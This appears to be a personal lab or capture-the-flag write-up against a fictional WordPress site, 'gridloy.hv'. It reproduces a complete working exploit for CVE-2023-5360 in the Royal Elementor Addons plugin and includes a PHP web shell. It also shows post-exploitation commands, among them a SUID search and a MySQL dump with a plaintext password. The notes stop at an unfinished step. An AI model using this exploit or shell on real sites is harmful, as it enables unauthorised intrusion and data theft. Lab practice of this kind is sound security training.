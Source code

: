 #+title: Gridloy News
#+author:gabriel

* intro
Recently, a mysterious writer using the pseudonym "Currol" has been publishing striking and influential news articles. The true identity of this writer remains a major mystery. Currol is particularly known for his in-depth analyses in the field of politics, making a name internationally. However, there is no information available about who is behind these writings.

Your task is to uncover the real identity of Currol. In this process, your job will involve vulnerability research on the website where the writer's articles are published.

* initial scan
#+begin_src sh
feroxbuster --url http://gridloy.hv -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium
-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.12.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://gridloy.hv
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.12.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[>-------------------] - 2s         8/30000   4h      found:0       errors:0
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_gridloy_hv-1759453597.state ...
[>-------------------] - 2s         8/30000   4h      found:0       errors:0
[--------------------] - 2s         0/30000   0/s
#+end_src

A aplicação está rodando em um CMS, neste caso wordpress ->
#+begin_src sh
wpscan --url http://gridloy.hv

[i] Plugin(s) Identified:

[+] elementor
 | Location: http://gridloy.hv/wp-content/plugins/elementor/
 | Last Updated: 2025-06-04T15:00:00.000Z
 | [!] The version is out of date, the latest version is 3.29.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.18.3 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://gridloy.hv/wp-content/plugins/elementor/assets/js/frontend.min.js?ver=3.18.3
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://gridloy.hv/wp-content/plugins/elementor/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://gridloy.hv/wp-content/plugins/elementor/readme.txt

[+] royal-elementor-addons
 | Location: http://gridloy.hv/wp-content/plugins/royal-elementor-addons/
 | Last Updated: 2025-06-10T09:59:00.000Z
 | [!] The version is out of date, the latest version is 1.7.1025
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.3.78 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://gridloy.hv/wp-content/plugins/royal-elementor-addons/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:07 <==========================================================> (137 / 137) 100.00% Time: 00:00:07

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Oct  2 22:10:54 2025
[+] Requests Done: 174
[+] Cached Requests: 5
[+] Data Sent: 43.703 KB
[+] Data Received: 366.577 KB
[+] Memory used: 292.848 MB
[+] Elapsed time: 00:00:21
#+end_src

* vulnerable plugin Royal Elementor 1.3.78
O plugin Royal Elementor Addons na versão 1.3.78 possui uma CVE publicada ->

Royal Elementor Addons and Templates 1.3.78 - Unauthenticated Arbitrary File Upload ->
- https://www.exploit-db.com/exploits/52127


#+begin_src python CVE-2023-5360
# Exploit Title: WordPress Plugin Royal Elementor Addons <= 1.3.78 - Unauthenticated Arbitrary File Upload (RCE)
# Date: 2025-04-04
# Exploit Author: Sheikh Mohammad Hasan (https://github.com/4m3rr0r)
# Vendor Homepage: https://royal-elementor-addons.com
# Software Link: https://downloads.wordpress.org/plugin/royal-elementor-addons.1.3.78.zip
# Version: <= 1.3.78
# Tested on: WordPress 6.3.1, Royal Elementor Addons 1.3.78, Ubuntu 22.04 + Apache2 + PHP 8.1
# CVE: CVE-2023-5360

# Description:
# The Royal Elementor Addons and Templates WordPress plugin before 1.3.79 does not properly validate uploaded files,
# which allows unauthenticated users to upload arbitrary files (such as .php), leading to Remote Code Execution (RCE).

import requests
import json
import re
import argparse
import tempfile
from urllib.parse import urljoin
from rich.console import Console

requests.packages.urllib3.disable_warnings()
console = Console()

def get_nonce(target):
    try:
        r = requests.get(target, verify=False, timeout=10)
        m = re.search(r'var\s+WprConfig\s*=\s*({.*?});', r.text)
        if m:
            nonce = json.loads(m.group(1)).get("nonce")
            return nonce
    except:
        pass
    return None

def upload_shell(target, nonce, file_path):
    ajax_url = urljoin(target, "/wp-admin/admin-ajax.php")
    with open(file_path, "rb") as f:
        files = {"uploaded_file": ("poc.ph$p", f.read())}
    data = {
        "action": "wpr_addons_upload_file",
        "max_file_size": 0,
        "allowed_file_types": "ph$p",
        "triggering_event": "click",
        "wpr_addons_nonce": nonce
    }
    try:
        r = requests.post(ajax_url, data=data, files=files, verify=False, timeout=10)
        if r.status_code == 200 and "url" in r.text:
            resp = json.loads(r.text)
            return resp["data"]["url"]
    except:
        pass
    return None

def generate_default_shell():
    with tempfile.NamedTemporaryFile(delete=False, suffix=".php") as tmp:
        shell_code = '<?php echo "Shell by 4m3rr0r - "; system($_GET["cmd"]); ?>'
        tmp.write(shell_code.encode())
        return tmp.name

def main():
    parser = argparse.ArgumentParser(description="Royal Elementor Addons <= 1.3.78 - Unauthenticated Arbitrary File Upload (RCE)")
    parser.add_argument("-u", "--url", required=True, help="Target WordPress URL (e.g., https://target.com/)")
    parser.add_argument("-f", "--file", help="Custom PHP shell file to upload")
    args = parser.parse_args()

    console.print("[cyan][*] Getting nonce from WprConfig JS object...[/cyan]")
    nonce = get_nonce(args.url)
    if not nonce:
        console.print("[red][-] Failed to retrieve WprConfig nonce.[/red]")
        return

    console.print(f"[green][+] Nonce found: {nonce}[/green]")

    if args.file:
        shell_file = args.file
        console.print(f"[cyan][*] Using provided shell: {shell_file}[/cyan]")
    else:
        console.print("[cyan][*] No shell provided. Creating default RCE shell...[/cyan]")
        shell_file = generate_default_shell()
        console.print(f"[green][+] Default shell created at: {shell_file}[/green]")

    console.print("[cyan][*] Uploading shell...[/cyan]")
    uploaded_url = upload_shell(args.url, nonce, shell_file)

    if uploaded_url:
        console.print(f"[green][+] Shell uploaded successfully: {uploaded_url}[/green]")
        if not args.file:
            console.print(f"[yellow][>] Access it with: {uploaded_url}?cmd=id[/yellow]")
    else:
        console.print("[red][-] Upload failed. Target may be patched or not vulnerable.[/red]")

if __name__ == "__main__":
    main()
#+end_src

Upload do web-shell na aplicação via wp-content/uploads ->
#+begin_src sh
[22:15][]~ ✮ python3 e.py -u http://gridloy.hv -f cmd.php
/home/ilak/.local/lib/python3.12/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.20) or cha
rdet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
[*] Getting nonce from WprConfig JS object...
[+] Nonce found: 74189f3c2b
[*] Using provided shell: cmd.php
[*] Uploading shell...
[+] Shell uploaded successfully: http://gridloy.hv/wp-content/uploads/wpr-addons/forms/poc-1.php

#+end_src

Request com o webshell ->
: http://gridloy.hv/wp-content/uploads/wpr-addons/forms/poc.php?cmd=ls

: poc-1.php poc.php

*SUID search* ->
#+begin_src java
GET /wp-content/uploads/wpr-addons/forms/poc.php?cmd=find%20%2f%20-type%20f%20-perm%20-4000%20-ls%202%3e%2fdev%2fnull HTTP/1.1
Host: gridloy.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: comment_author_email_1c487e52fac82b581f32dc7e5cb4c6dd=admin%40email.com; comment_author_1c487e52fac82b581f32dc7e5cb4c6dd=alert%281%29
Connection: keep-alive
#+end_src

*response* ->
#+begin_src html
HTTP/1.1 200 OK
Date: Fri, 03 Oct 2025 00:39:30 GMT
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding
Content-Length: 915
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

     4132     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /usr/bin/umount
      110     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
     4130     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /usr/bin/mount
      109     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
     3763     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /usr/bin/su
      106     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
      107     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
     3604     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
   138991    472 -rwsr-xr-x   1 root     root       481608 Dec 21  2023 /usr/lib/openssh/ssh-keysign
   132405     52 -rwsr-xr--   1 root     messagebus    51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
#+end_src


** contune from here
#+begin_src php
php -r 'print(shell_exec("mysql -u wpuser -pG6gD6C9XncgPMeyx wordpressdb -e \"SELECT * FROM wp_comments;\""));'%
#+end_src
